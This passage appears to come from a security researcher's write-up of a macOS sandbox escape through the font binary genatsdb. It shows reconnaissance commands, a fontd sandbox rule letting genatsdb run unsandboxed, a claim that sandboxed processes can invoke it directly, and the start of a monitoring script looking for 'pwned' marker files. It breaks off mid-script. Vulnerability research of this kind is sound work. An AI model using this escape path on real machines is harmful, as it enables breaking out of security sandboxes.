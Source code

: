 1. could sandboxed processes actually invoke `genatsdb`?
2. what types of malicious input would `genatsdb` process?

## exploitation

first, i located the binary:

```bash
ls -la /System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Support/
-rwxr-xr-x  1 root  wheel  175936 Jul  19 05:39 genatsdb
```

i then checked for what it links against:

```bash
otool -L /System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Support/genatsdb
/System/Library/Frameworks/CoreServices.framework/Versions/A/CoreServices (compatibility version 1.0.0, current version 1226.0.0)
/usr/lib/libxml2.2.dylib (compatibility version 10.0.0, current version 10.9.0)
/usr/lib/libc++.1.dylib (compatibility version 1.0.0, current version 1900.180.0)
/usr/lib/libSystem.B.dylib (compatibility version 1.0.0, current version 1351.0.0)
```

and searched for references in `fontd`:

```bash
strings /System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Support/fontd | grep -C3 genatsdb
(version 1)
(import "%s")
(allow file-read* file-write* (subpath "%s"))
(allow process-exec* (with no-sandbox) (literal "%s/Versions/A/Support/genatsdb"))
(allow process-exec* (literal "%s/Versions/A/Support/atsd"))
/System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Resources/com.apple.fontd.sb
.SFNS-Regular
```

this confirms that `fontd` can be triggered via `genatsdb` invocation! but how?

when i started monitoring for `genatsdb`, i initially assumed it would be triggered through font operations: installing fonts, font cache rebuilds, etc. but those attempts all failed. the first breakthrough was discovering i could execute `genatsdb` directly: `/System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Support/genatsdb ~/Library/Fonts/<font-file>.ttf`

it was a surprise, because most of us would assume a system binary like `genatsdb` would validate its calling context (checking if it was invoked by `fontd`, verifying process privileges, etc), but it didn't. any process, including heavily sandboxed ones, could invoke it directly.

to start with, i created the following script to monitor `genatsdb` activity and font cache updates. it uses 

```bash
#!/bin/bash

echo "[*] starting genatsdb monitor..."

# check for success markers
check_markers() {
    markers=(
        "/tmp/sandbox_escaped.txt"
        "/tmp/escaped"
        "/tmp/pwned"
        "/tmp/genatsdb_pwned.txt"
        "/tmp/race_success"
    )
```